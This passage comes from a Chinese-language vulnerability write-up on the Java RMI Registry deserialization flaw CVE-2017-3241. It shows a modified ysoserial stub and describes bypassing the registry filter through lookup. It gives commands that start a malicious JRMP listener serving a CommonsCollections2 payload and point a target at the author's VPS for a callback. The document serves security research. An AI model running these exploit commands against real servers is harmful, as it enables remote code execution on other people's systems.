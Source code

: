 ```

            try {
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(var1);
            } catch (IOException var15) {
                throw new MarshalException("error marshalling arguments", var15);
            }
            ref.invoke(var2);//这个语句不能少，否则不会触发。
        } catch (RuntimeException var16) {
            throw var16;
        } catch (RemoteException var17) {
            throw var17;
        } catch (NotBoundException var18) {
            throw var18;
        } catch (Exception var19) {
            throw new UnexpectedException("undeclared checked exception", var19);
        }
    }
```

3、然后修改ysoserial.exploit.RMIRegistryExploitLookup#exploit中的bind为lookup方法。

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599208748091-1507b52c-c30b-44d7-9467-e20ab32c6920.png)

由于JDK在添加远程IP限制前，就已经添加了白名单限制，而我们上面改造的payload只是做了操作方法的改造（lookup），没有考虑绕过白名单，所以我们要选择一个低于8u121版本的JDK进行测试，先保证lookup方式能正常工作后再将二者融合。



这里再插入一个小问题：是否可以通过bind的name参数进行攻击？

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599135742184-706b8dc0-a0b7-4644-85ff-2de6a008df08.png)

答案是可以的，使用类似的方法，改造bind方法，交换参数的写入顺序，然后运行，也能成功触发。测试代码可见https://github.com/bit4woo/ysoserial/blob/bit4woo/src/main/java/ysoserial/exploit/RMIRegistryExploitAlertBind.java



### 小于JDK8u231版本的通用Payload

将以上2部分的改造相结合。然后再按照如下步骤就复现。

```
1、在自己的VPS服务器上启用JRMP监听，如前面所说：但是它是一个恶意的服务端，会向连接它的客户端发送攻击攻Payload，以攻击客户端。

java -cp ysoserial-0.0.5.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "calc.exe"

2、使用改造过的RMIRegistryExploitBypassFilterAndLookup向漏洞服务器发起请求

java -cp ysoserial-0.0.6-bit4woo-all.jar ysoserial.exploit.RMIRegistryExploitBypassFilterAndLookup 192.168.1.100 1099 JRMPClient sz.myvps.com:1099
```

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1599211400581-72f3c31a-a8ed-4b7f-aead-72158fc13959.png)
